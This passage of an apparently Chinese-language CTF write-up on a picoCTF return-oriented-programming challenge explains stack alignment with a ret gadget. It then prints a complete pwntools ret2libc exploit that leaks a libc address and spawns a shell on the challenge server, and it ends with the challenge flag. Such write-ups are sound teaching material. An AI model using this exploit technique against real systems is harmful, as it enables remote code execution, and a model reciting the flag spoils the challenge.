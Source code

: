 解決方法也很簡單，在進到system以前多放一個`ret`讓`$rsp`減8就好，用`ROPgadget`可以找到非常符合需求的東西
```
0x000000000040052e : ret
```
把這個地址加到`/bin/sh`的後面，`system`的前面，最終payload長這樣
```py
# Phase 2
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(libc_base+0x1b75aa) # pointer to "/bin/sh"
payload += p64(0x40052e) # stack alignment
payload += p64(system_runtime) # to system
```

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/final-local.png" column=1 %}

本地成功了，那來試試遠端

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/final-local.png" column=1 %}

成功！最後的exploit長這樣
```py
from pwn import *

# r = process('./vuln')
# r = gdb.debug('./vuln', gdbscript='break do_stuff')
r = remote('mercury.picoctf.net', 37289)

r.recvuntil(b'sErVeR!') # welcome

# Phase 1
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(0x601018) # value for rdi
payload += p64(0x400540) # to puts
payload += p64(0x4006d8) # to do_stuff

r.sendline(payload)
r.recvline() # \n
r.recvline() # AaAaAa...
res = r.recvline().rstrip()

# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
log.info(f'[1] puts_runtime = {hex(puts_runtime)}')
libc_base = puts_runtime - 0x80a30 # REMOTE
# libc_base = puts_runtime - 0x875a0 # LOCAL
log.info(f'[2] libc_base = {hex(libc_base)}')
system_runtime = libc_base + 0x4f4e0 #REMOTE
# system_runtime = libc_base + 0x55410 # LOCAL
log.info(f'[3] system_runtime = {hex(system_runtime)}')

# Phase 2
payload  = b'A'*136      # dummy
payload += p64(0x400913) # to gadget
payload += p64(libc_base+0x1b40fa) # pointer to "/bin/sh", REMOTE
# payload += p64(libc_base+0x1b75aa) # pointer to "/bin/sh", LOCAL
payload += p64(0x40052e) # stack alignment
payload += p64(system_runtime) # to system

r.sendline(payload)
r.interactive()

# picoCTF{1_<3_sm4sh_st4cking_e900800fb4613d1e}
```